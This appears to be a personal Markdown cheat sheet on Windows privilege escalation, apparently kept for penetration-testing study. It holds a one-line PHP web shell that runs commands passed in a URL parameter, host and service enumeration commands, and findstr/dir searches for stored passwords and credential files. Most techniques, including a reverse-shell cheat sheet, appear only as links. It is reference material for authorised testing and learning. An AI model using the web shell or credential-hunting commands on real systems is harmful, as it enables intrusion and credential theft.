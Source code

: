 # ariel-shin Windows - Privilege Escalation

## Summary 
* [Tools](#tools)

## MUST RUN: ipconfig/ifconfig && whoami && cat local.txt

## Web Shell for Windows 
PHP Web Shell
- Test if PHP works
```phpinfo
<?php phpinfo(); ?>
```
- Command Execution
```php webshell
<?php echo(system($_GET["cmd"])); ?>
```
- Go to http://victimsite.com/test.php?cmd=dir for command execution 

## Process
- systeminfo
	* Gives us system info 

	* Check Hot Fixes
		* No hot fixes - means no hotfixes installed OR we don't have permissions to view hot fixes

	* Check OS Name
		* google: systeminfo "OS" + "NIC(s) installed"
			* example: "Microosft Windows Server 2008 R2 DataCenter" + "NIC(s) installed"
		* check if someone else has posted systeminfo output so we can compare our OS version 

	* Check OS Versions 
		* Indicate the Service Pack -- N/A
		
		```systeminfo
		systeminfo | findstr /B /C:”OS Name” /C:”OS Version”
		```
		* Google Output
- wmic os get osarchitecture || echo %PROCESSOR_ARCHITECTURE%
	* Get architecture
	* x86 = 32 bit machine
	* x64 = 64 bit machine
- Environment Variables
	* Command Prompt
	```env
	set
	```
	* PowerShell
	```
	Get-ChildItem Env: | ft Key,Value
	```
- net users
	* See the users 
- net localgroup Administrator(s)
	* See which users are in the Administrator Group
- net start
	* list running services
- powershell
	* check for powershell
	```powershell
	REG QUERY "HKLM\SOFTWARE\Microsoft\PowerShell\1\PowerShellEngine" /v PowerShellVersion
	```
- Check Weak Permissions 
*** TO DO ****
//more commands at http://www.exumbraops.com/penetration-testing-102-windows-privilege-escalation-cheatsheet
- Processes Running as system
	```systemprocesses
	tasklist /v /fi "username eq system"
	```
- [Scheduled Tasks](https://sushant747.gitbooks.io/total-oscp-guide/privilege_escalation_windows.html)
	* Option 1 
	```schtasks
	schtasks /query /fo LIST 2>nul | findstr TaskName
	Get-ScheduledTask | where {$_.TaskPath -notlike "\Microsoft*"} | ft TaskName,TaskPath,State
	```
	* Option 2 - fuzzysecurity
	schtasks /query /fo LIST /v

- tasklist /SVC
	* Running processes to started services
	* Looking for upnphost
- Unquoted Service Tasks
**** TO DO ****
- File Upload
- Look for Credentials 
	* [Credentials - Method 1](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)
	```creds
	cd C:\ & findstr /SI /M "password" *.xml *.ini *.txt
	findstr /si password *.xml *.ini *.txt *.config
	findstr /spin "password" *.*
	```
	* [Credentials - Method 2](https://pentestlab.blog/2017/04/19/stored-credentials/
)
	```creds2
	findstr /si password *.txt
	findstr /si password *.xml
	findstr /si password *.ini
	dir /b /s unattend.xml
	dir /b /s web.config
	dir /b /s sysprep.inf
	dir /b /s sysprep.xml
	dir /b /s *pass*
	dir /b /s vnc.ini
	```
- [Weak Service Permissions](https://pentestlab.blog/2017/03/30/weak-service-permissions/
)
	* Need to upload accesschk.exe
- [DLL Injection]((https://pentestlab.blog/2017/04/04/dll-injection/)
)
- [Hot Potato - NBNS spoofing and NTLM relay](https://pentestlab.blog/2017/04/13/hot-potato/)
- [Group Policy Preferences](https://pentestlab.blog/2017/03/20/group-policy-preferences/)
	* Manually browse to the Groups.xml file which is stored in a shared directory in the domain controller
	* Can be done through Powersploit
- [Unquoted Service Path](https://pentestlab.blog/2017/03/09/unquoted-service-path/)
	```unquoted
	wmic service get name,displayname,pathname,startmode |findstr /i “auto” |findstr /i /v “c:\windows\\” |findstr /i /v “””
	```
- [Always Install Elevated](https://pentestlab.blog/2017/02/28/always-install-elevated/)
	```aie	
	reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
	reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
	```
- [Token Manipulation](https://pentestlab.blog/2017/04/03/token-manipulation/)
- [Secondary Logon Handle](https://pentestlab.blog/2017/04/07/secondary-logon-handle/)
- [Insecure Registry Permissions](https://pentestlab.blog/2017/03/31/insecure-registry-permissions/)
- [Weak Service Permissions](https://sushant747.gitbooks.io/total-oscp-guide/privilege_escalation_windows.html)
	```weak
	wmic service list brief
	```
- [MORE PAYLOADS](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)

CHECKLIST (https://github.com/netbiosX/Checklists/blob/master/Windows-Privilege-Escalation.md)

accesschk.exe -uwcqv "Authenticated Users" * /accepteula
accesschk.exe -uwcqv "Authenticated Users" C:\*.* /accepteula

sc -- tells you what program is running
systeminternals
accesschk.exe


## Automated Tools
* [Windows Exploit Suggester](https://github.com/GDSSecurity/Windows-Exploit-Suggester)

## Cheat Sheets
* [Reverse Shell](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
)

## Links
* [Spreadsheet with Resources](https://docs.google.com/spreadsheets/d/12bT8APhWsL-P8mBtWCYu4MLftwG1cPmIL25AEBtXDno/edit#gid=2075148101)